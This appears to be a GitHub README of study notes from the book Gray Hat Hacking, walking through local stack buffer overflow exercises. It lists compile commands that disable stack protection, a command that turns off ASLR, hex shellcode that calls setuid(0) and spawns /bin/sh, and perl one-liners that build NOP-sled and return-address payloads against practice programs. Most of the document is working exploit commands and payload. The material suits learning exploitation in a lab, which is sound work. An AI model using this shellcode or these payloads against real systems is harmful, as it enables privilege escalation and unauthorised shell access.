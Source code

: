 Grayshell
=========

Some basic shell code, when I learn &lt;Gray Hat Hacking>


#How to run 

##Example1 : Buffer_overflow
//notice we start out at user privileges "$"

```
gcc overflow.c -ggdb -mpreferred-stack-boundary=2 -fno-stack-protector -o overflow
``` 

```
$gdb -g overflow 
(gdb) run
(gdb) info req eip
(gdb) q
```

##Example2 : Meet.c
//notice we start out at user privileges "$"

```
gcc meet.c -ggdb -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o meet
``` 
//notice the difference between ` and '

```
perl -e 'print "\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh";' > sc
```

```
./meet Mr `perl -e 'print "A" x 600'`
```
```
ESP: 0xbffffc48

0xbffffc48 - 0x300 = 0xbffff948

perl -e 'print "\x48\xf9\xff\xff"x38'

```
```
./meet Mr `perl -e 'print "\x90"x203';``cat sc``perl -e 'print "\x48\xf9\xff\xff"x38';`
```






##Example3 : Shellcode.c
```
gcc -ggdb -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o shellcode shellcode.c
```
```
\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

##Example4 : Repeat return address

```
gcc -o get_sp get_sp.c
```

### forbidden ASLR
```
echo "0" > /proc/sys/kernel/randomize_va_space 

ESP: 0xbffffc48


``` 

##Example5 : exploit.c
###general code
```

./exploit 600
```

##Example6 : smallbuff
```
gcc -ggdb -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o smallbuff smallbuff.c
```
```
gcc exploit2.c -o exploit2
./exploit2
```

## peercast 
```
http://peercast.sourcearchive.com/downloads/0.1214.toots.svn20051112/
```
